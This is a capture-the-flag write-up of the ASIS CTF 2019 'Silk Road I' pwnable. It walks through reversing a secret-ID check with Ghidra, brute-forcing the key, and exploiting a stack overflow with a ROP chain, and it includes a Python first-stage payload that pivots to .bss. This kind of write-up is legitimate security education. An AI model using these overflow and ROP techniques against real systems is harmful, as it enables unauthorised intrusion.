

# Silk Road I

This is a fairly low-point pwnable challenge for ASIS CTF 2019, a rather difficult CTF sponsored by Sharif University and, I think, the Iranian Nuclear Energy Commission. The problem was quite interesting, and I enjoyed solving it. I did not have time during the CTF to start this write-up, so I am playing catch-up several months later.

### Reconnaissance

Here are the results of `file` and `checksec`:

```
silkroad.elf: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, BuildID[sha1]=7f500758d8c87a97befe1bf9e71a1cc3a834de25, stripped
```

```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   silkroad.elf
```

Here is some interesting information from `strings`:

```
/lib64/ld-linux-x86-64.so.2
libc.so.6
strcpy
srand
strncmp
__isoc99_scanf
puts
time
putchar
stdin
printf
strtol
fgets
strlen
read
stdout
malloc
strcat
open
setvbuf
__libc_start_main
free
__fxstat
GLIBC_2.7
GLIBC_2.2.5
__gmon_start__
...
Silkroad admin token not found!
DreadPirateRoberts
FBI detected Silkroad, enter the commadns to delete evidince and run Silkroad!
Not Silkroad admin!
        Welcome to Silk Road!
                     ,,__
           ..  ..   / o._)                   .---.
          /--`/--\  \-`||        .----.    .`     `.
         /        \_/ / |      .`      `..`         `-.
       .`\  \__\  __.`.`     .`          i-._
         )\ |  )\ |      _.`
        // \\ // \\
       ||_  \\|_  \\_
       `--` `--`` `--`
Hello, guest!
Enter your secret ID:
The secret ID is not correct!
Enter your nick:
```

So that seems to indicate some interesting characteristics of the program. I'm writing this time with the benefit of hindsight of course, but just looking at this information I would probably have figured out that there might be a buffer overflow vulnerability (presence of `fgets` and no stack canary); that I might need to figure out some secret ID or nickname, and that `DreadPirateRoberts` is probably a useful string. There's no call to `system` or `/bin/sh` sitting in the code, but there's also no PIE, so maybe I can use `printf` to leak a GOT address. That's already a lot of information. Let's look at the code.

Well, first of all, after the user gets greeted, there's a function that I'll call `check_secret_id` that gets called, and the user is allowed to enter a string with only nine characters that's passed in as a parameter to `check_secret_id`. There's no buffer overflow vulnerability with reading in those nine characters. The actual `check_secret_id` function is kind of involved, so let's look at it with Ghidra. Along the way I just want to point out that, analyzing this binary with Ghidra, I noticed a function that I'll call `print_flag`, which is in the code but doesn't get called directly. It takes in a pointer to an array of pointers to strings, and prints out each of the strings:

```
void print_flag(long lParm1)

{
  int local_c;

  local_c = 0;
  while (**(char **)(lParm1 + (long)local_c * 8) != 0) {
    printf("\t%s\n",*(undefined8 *)(lParm1 + (long)local_c * 8));
    local_c = local_c + 1;
  }
  return;
}
```

So that looks useful, maybe I would have a reason for jumping to that later.

Back to `check_secret_id`, here's the decompiled C code in Ghidra, and I've replaced some strings to aid readability:

```
undefined8 test_secret_number(char *pcParm1)

{
  int iVar1;
  int iVar2;
  int n;
  long lVar3;
  size_t integer_length;
  size_t sVar4;
  size_t sVar5;
  size_t sVar6;
  int dcba;
  int ihgf;

  lVar3 = strtol(pcParm1,(char **)0x0,10);
  n = (int)lVar3;
  integer_length = strlen(pcParm1);
  if ((SUB168((ZEXT816(0) << 0x40 | ZEXT816((ulong)(long)n)) % ZEXT816(integer_length + 2),0) == 0)
     && (pcParm1[4] == '1')) {
    ihgf = n / 100000;
    dcba = n % 10000;
    if ((((dcba % 100) / 10 + (dcba / 1000) * 10) - ((ihgf / 1000) * 10 + ihgf % 10) == 1) &&
       (((ihgf / 100) % 10) * 10 + (ihgf / 10) % 10 +
        ((dcba % 1000) / 100 + ((dcba % 100) / 10) * 10) * -2 == 8)) {
      iVar1 = (ihgf % 10) * 10 + (ihgf / 100) % 10;
      iVar2 = ((dcba / 100) % 10) * 10 + dcba % 10;
      if ((iVar1 / iVar2 == 3) && (iVar1 % iVar2 == 0)) {
        sVar4 = strlen(pcParm1);
        sVar5 = strlen(pcParm1);
        sVar6 = strlen(pcParm1);
        if ((long)(n % (ihgf * dcba)) == (sVar6 + 2) * (sVar4 + 2) * (sVar5 + 2) + 6) {
          return 1;
        }
      }
    }
  }
  return 0;
}
```

That's a lot easier to understand than the assembly language. The assignment of `sVar4`, `sVar5`, and `sVar6` looks a little fishy, but the pseudocode checks out with the assembly language. In any case, the nine-digit string gets converted to a long, then the long is subjected to a set of constraints and if all of them are satisfied, `1` gets returned to the caller function (which of course is the desired outcome).

At first I thought that a nine-digit number would constitute too many possibilities to find the desired number via brute force. I considered working with a constraint solver, but then I just wrote a program to count from zero to `10^10` and found that it did not take as long as I expected. So I just used a brute force approach to calculate the desired key. [Here's](./get_secret_number.py) the code to get it. After a couple of minutes, the code returns `790317143`.

Next, the program asks the user for their "nickname" and checks if it's `DreadPirateRoberts!` followed by `0x7a69`. That's simple enough. If the nickname is correct, a vulnerable function gets called:



Here, `0x80` bytes get read into a buffer of size `0x40`. (Of course, I'd seen that during the initial reconnaissance before going to the trouble of determining the nine-digit secret key.) The rest is a ROP, and I've got essentially 64 bytes to work with. I found it useful to read information to the `.bss` section, then pivot there to continue the ROP chain so that it could be an arbitrary length.

Here's the first payload:
```
# Fill the initial buffer (64 bytes long)
payload = ""
for i in range(8):
	payload += chr(0x41+i)*8
payload += p64(NEW_RBP)
payload += p64(0x4017ce) # Puts 0x1ed60 in rdx for example
payload += p64(POP_RSI)
payload += p64(BSS_ROOT) # where I'm reading into
payload += p64(0x0)
payload += p64(POP_RDI)
payload += p64(0x0) # Read from stdin
payload += p64(CALL_READ_ADDR)
payload += p64(RET_ADDR)
payload += "\n"
p.send(payload)
```

One challenge was that in order to write a large payload to the `.bss` section, I needed a large integer in register `rdx` at the time that I jumped to the call to `_read` (as `rdx` stores the maximum number of bytes to read), and there was no gadget to simply pop `rdx`. I found that the function at `0x4017ce`, which checks the nickname entered by the user, will place a heap address in `rdx` as part of freeing a block of memory when the nickname is wrong, and that address remains in `rdx` when the function terminates. That was a satisfying trick to make the call to `_read` work. I was just able to fit that call to `read` into 64 bytes.

Once I pivot to the `.bss` section, my next goal is to call a section of code that will print the flag. The function at `0x4017ce` attempts to read a file located at `./Silkroad/790317143` (where `790317143` is really specified by an input parameter that's a pointer to the secret key entered by the user) and then prints the contents of that file with a `puts` command. So, I need to store the number `790317143` in the `.bss` section as an input string, pop it into `rdi`, then call the function at `0x4017ce` in order to print the flag. (I set up such a file with a fake flag locally for testing purposes.)

I didn't save a screenshot of the flag at the time of the competition, but oh well. [Here's](./exploit-silkroad.py) the exploit code.

### Comparison to other approaches

[Ian Klatzco](https://klatz.co/ctf-blog/asisctf-silkroad) writes a C harness that repeatedly throws inputs at assembly language taken from the `silkroad.elf` binary to check whether an integer is the secret key. His idea is to produce code that runs faster than the native Python, and in the end he's able to get the secret key in less than a minute. [EmpireCTF](https://github.com/EmpireCTF/empirectf/blob/master/writeups/2019-04-20-ASIS-CTF-Quals/README.md#83-pwn--silk-road-i) was able to get a shell with the 64 bytes allowed. They appear to know the `libc` version running on the server, even though that wasn't provided with the problem. I think they may have [fingerprinted](https://libc.blukat.me/) the `libc` version on the server by leaking addresses from the Global Offset Table, but that's not in the write-up. I'm sure my approach was not the intended solution because of the trick needed to leak `rdx`, but it was fun to figure out!
